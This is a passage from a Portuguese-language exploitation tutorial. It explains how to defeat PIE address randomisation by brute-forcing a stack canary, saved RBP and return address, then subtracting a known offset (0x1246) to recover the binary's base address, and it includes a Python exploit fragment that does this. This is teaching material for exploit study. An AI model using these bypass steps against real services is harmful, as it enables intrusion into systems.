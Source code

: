 Como o *PIE Protector* está ativado, estes bytes não são endereços de fato, mas sim *offsets* de endereço. Isto significa que quando o binário for iniciado, um endereço **base aleatório** será gerado, e os endereços de função serão este endereço base + o offset.
Em outras palavras, os endereços mudam, mas as distâncias entre um endereço e outro são sempre os mesmos.
Analisando o disassembly da função `main` é possível encontrar o offset do endereco de retorno da função `func`, conforme imagem abaixo:

![Endereço de retorno da função func = 0x0000000000001246](/std/linbof/exploit-3.png)

O *offset* do endereço de retorno tem o valor de `0x1246`, isso significa, que se for possível obter o valor de retorno da função `func`, ou **RIP** em tempo de execução, e subtrair o valor do offset, chega-se ao valor base dos endereços do binário durante a específica execução.

Para encontrar o valor exato de **RIP** durante a execução, é possível reaproveitar o *brute force* realizado no *Canary*, porém, ao invés de enviar somente o *buffer* inicial, será enviado o *buffer + Canary + valor de RBP*, o script do exploit será atualizado com as seguintes linhas:

```
#incrementando o buffer com o valor do Canary + RBP
CANARY = offset + canary + rbp

#Inicio do Brute Force do endereco de retorno
print("[+] Procurando valor de retorno...")
ret = b""
for i in range(8):
        ret = ret + bruteforce(CANARY + ret)
ret = ret.ljust(8, b"\x00")
ret = u64(ret)[0]
print(f"[+] Valor de retorno: {hex(ret)}")

#Offset do endereco de retorno
offset_ret = 0x1246
#calculando o endereco base
elf_base = ret - offset_ret
print(f"[+] ELF BASE @ {hex(elf_base)}")
```

Ao executar o script, o *exploit* fará o bruteforce do *Canary*, incluirá seu valor ao *buffer*, e iniciará o bruteforce do endereço de retorno. Assim que o endereço de retorno for encontrado, o script decrementará o valor de `0x1246` que é seu offset, chegando ao endereço base do binário.
